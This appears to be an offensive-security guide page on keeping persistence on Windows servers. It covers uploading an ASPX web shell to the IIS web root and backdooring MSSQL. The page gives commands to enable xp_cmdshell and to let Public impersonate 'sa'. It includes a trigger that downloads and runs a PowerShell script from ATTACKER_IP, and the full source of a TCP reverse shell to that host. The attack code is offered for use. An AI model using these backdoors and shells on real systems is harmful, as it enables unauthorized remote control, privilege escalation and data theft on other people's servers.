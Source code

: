 # Persisting Through Existing Services

## Using Web Shells

The usual way of achieving persistence in a web server is by uploading a web shell to the web directory.\
Upload the [.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) shell into web directory `C:\inetpub\wwwroot`&#x20;

We can then run commands from the web server :

<figure><img src="../../../.gitbook/assets/d9845057ebf54a61401ca61c2c268fe8.png" alt=""><figcaption></figcaption></figure>

## Using MSSQL as a Backdoor

`triggers` in MSSQL allow you to bind actions to be performed when specific events occur in the database. Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the xp\_cmdshell stored procedure.

Enabling xp\_cmdshell;

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

By default, only database users with sysadmin role can run xp\_cmdshell, lets change this permission such that any website accessing the database can run xp\_cmdshell.

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

Finally, create trigger as;

```
USE DATABASE_NAME
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

content of `evilscript.ps1`

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

